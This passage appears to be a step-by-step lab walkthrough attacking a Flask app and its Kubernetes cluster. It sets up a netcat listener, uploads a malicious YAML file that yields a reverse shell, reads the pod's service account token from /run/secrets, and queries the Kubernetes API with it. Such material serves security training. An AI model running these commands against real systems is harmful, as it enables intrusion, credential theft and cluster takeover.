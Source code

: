 ```bash
ssh root@ServerIp

nc -l 1337
```

* In the previous tab, post the malicious `reverse_shell.yml`.

```bash
http --form POST $NGFLASK/upload file@reverse_shell.yml
```

It should come back with a response similar to the one below

```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 26
Content-Type: application/json
Date: Thu, 03 Jan 2019 14:38:49 GMT
Server: nginx/1.11.13

{
    "success": "stored"
}
```

On the tab running netcat, you should have gotten a netcat reverse TCP shell! The output on the tab running netcat will be similar to the one below.

```
nc -l 1337
/bin/sh: can't access tty; job control turned off
/app #
```

Now you can interact with your target app and backend K8s cluster

**NOTE: Do NOT use the `clear` or `Command/Ctrl+C` key. You will lose access to the shell and will have to re-do Step 5**

### Pivoting to K8s cluster

##### Step 6:

* In the reverse shell, navigate within the pod to fetch `Service Account` token.

```bash
cd /run/secrets/kubernetes.io/serviceaccount

export TOKEN=$(cat token)
```

###### We are now going to masquerade with the cluster-admin's token.

* Start interacting with K8s API. To get a JSON dump of all pods running, run

```bash
curl -s https://10.96.0.1/api/v1/namespaces/default/pods -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure
```
